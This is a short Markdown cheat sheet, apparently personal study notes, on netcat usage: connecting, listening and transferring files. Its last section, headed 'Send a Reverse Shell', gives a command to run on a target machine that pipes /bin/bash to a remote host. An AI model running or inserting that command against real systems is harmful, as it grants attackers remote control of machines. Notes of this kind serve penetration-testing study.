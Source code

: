 # Netcat
Read and Write data in the network using TCP or UDP.

## Commands


I.e. connect to an arbitrary port on an IP address:

```bash
$ nc [IP] [PORT]
```

## 

Basic Listener

I.e. receive connections on an arbitrary port:

```bash
$ nc -lp [PORT]
```

## 

File Transfer

Setup a listener on host that pushes to an outfile:

```bash
$ nc -lp [PORT] > /path/to/outfile
```

From the client (remote machine), push a file back to the listener:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

## 

Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

# 

Tags

[#cheat-sheet](app://obsidian.md/index.html#cheat-sheet)